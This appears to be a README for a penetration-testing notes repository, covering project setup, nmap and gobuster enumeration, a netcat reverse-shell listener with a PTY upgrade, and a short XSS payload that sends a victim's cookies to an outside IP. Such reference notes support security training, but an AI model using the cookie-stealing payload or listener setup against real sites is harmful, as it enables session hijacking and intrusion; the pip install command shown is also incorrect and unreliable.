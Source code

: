 # REDREF

A red teaming reference for attacking boxes. Thie repository contains notes, comands and tips for penetration testing. Notes are arranged according to the [MITRE ATT&CK framework](https://attack.mitre.org/), which also aligns nicely with the way Kali Linux is structured.



## Setup
```
[myproject]
    |
    |__ [myproject].md      <-- stores the summary notes
    |__ requirements.txt    <-- python libraries used within this project
    |__ variables.sh        <-- contains variables for the target environment
    |__ .gitignore          <-- use to tell git to ignore certain files/filetypes if using version control
    |__ .venv               <-- folder for python interpreter specific to this project
```

When starting a new project it is handy to create a folder structure similar to above the on the local filesystem (replace `[myproject]` with the name of the project). This folder will store all scripts and outputs specific to the project.

More details on this are below.

### Create the notes file
Markdown (.md) format is very useful for capturing code related notes. Creating a `[myproject.md]` in the project root folder provides a ready reference for the process, theories, commands, dead ends, findings etc specific to the project.


### Set variables
It is very useful to set shell variables that can be reused multiple times. Most of the commands in this repository rely on these variables being set. When recommencing work on a project just `source variables.sh`.

```
target_ip='10.10.10.10'
user='john'
pass='password123'
domain='mydomain'
```    

### Python virutal environments
When crafting payloads or exploits or running custom cracking tools it is often useful to use Python. The best way of doing this is to create a virtual environment within the project folder.
- Install venv: `sudo apt install python3-venv`
- Create a new virtual environment called .venv in the current directory `python -m venv .venv`
- Activate the environment `source .venv/bin/activate`
- Create a text file with python libraries required for the project (one library per line). By convention this is called `requirements.txt`.
- Install required packages listed in requriements.txt `pip install requirements.txt`



## General process

### Getting started.

- **Host and Port Scanning**: First step is usually to run nmap to find out what ports and services are open. Use a range of scans. At least a broad scan to identify open ports, then use service and script enumeration to obtain further details.



## Super useful reference sites:

1. [WADComs](https://wadcoms.github.io/): An interactive cheat sheet, containing a curated list of offensive security tools and their respective commands, to be used against Windows/AD environments.


## TO DO
The following sections need to find a home.

### Directory enumeration
Set variables: `target_url="target_url"`
- Gobuster: `gobuster dir -u $target_url -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt | tee gobuster_dir.txt`

### VHost
gobuster vhost -v -u https://abrictosecurity.com -w /usr/share/wordlists/subdomains/top5000subdomains -o vhostlist.txt

### Sniffing & Spoofing
Show connected and listening sockets `netstat -an` (-n shows numberical port)


## Exploitation

### Reverse shells
- Create a listener using netcat `nc -lvvp [port]`
- Spawn a bash shell `python3 -c 'import pty;pty.spawn("/bin/bash")'`

### Web Server Listener
- Start a simple python web server to listen for connections: `python -m http.server 5000`'



## XSS Payloads
- Img: `<script>var i=new Image(); i.src="http://10.10.14.41:5000/?cookie="+btoa(document.cookie); </script>`